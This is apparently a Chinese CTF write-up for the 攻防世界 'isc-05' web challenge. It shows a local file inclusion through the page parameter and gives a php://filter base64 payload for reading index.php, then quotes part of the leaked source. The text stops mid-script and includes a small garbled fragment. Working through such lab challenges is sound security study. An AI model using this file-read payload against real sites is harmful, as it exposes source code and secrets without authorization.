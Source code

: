 ```yaml
---
layout:     post               # 使用的布局（不需要改）
title:     isc-05    # 标题 
subtitle:    攻防世界  #副标题
date:       2020-07-28        # 时间
author:     yanmie             # 作者
header-img: img/.jpg    ##标签这篇文章标题背景图片
catalog: true                       # 是否归档
tags:                               
    - CTF
  
--- 
```


![ak32Ks.png](https://s1.ax1x.com/2020/07/28/ak32Ks.png)

只能这里点，目录扫描也只有这两页面。

点击左上角之后，发现url变成，`/index.php?page=index`,页面也回显了index,把index换成`index.html`,页面回显了index.html的内容。

![ak3Wbq.png](https://s1.ax1x.com/2020/07/28/ak3Wbq.png)

那么猜测可以用php伪协议。

`/index.php?page=php://filter/read=convert.base64-encode/resource=index.php`读取成功。页面回显base64编码.

```
<?php
error_reporting(0);

@session_start();
posix_setuid(1000);


?>
<!DOCTYPE HTML>
<html>

<head>
    <meta charset="utf-8">
    <meta name="renderer" content="webkit">
    <meta http-equiv="X-UA-Compatible" content="IE=edge,chrome=1">
    <meta name="viewport" content="width=device-width, initial-scale=1, maximum-scale=1">
    <link rel="stylesheet" href="layui/css/layui.css" media="all">
    <title>设备维护中心</title>
    <meta charset="utf-8">
</head>

<body>
    <ul class="layui-nav">
        <li class="layui-nav-item layui-this"><a href="?page=index">云平台设备维护中心</a></li>
    </ul>
    <fieldset class="layui-elem-field layui-field-title" style="margin-top: 30px;">
        <legend>设备列表</legend>
    </fieldset>
    <table class="layui-hide" id="test"></table>
    <script type="text/html" id="switchTpl">
        <!-- 这里的 checked 的状态只是演示 -->
        <input type="checkbox" name="sex" value="{{d.id}}" lay-skin="switch" lay-text="开|关" lay-filter="checkDemo" {{ d.id==1 0003 ? 'checked' : '' }}>
    </script>
    <script src="layui/layui.js" charset="utf-8"></script>
    <script>
    layui.use('table', function() {
```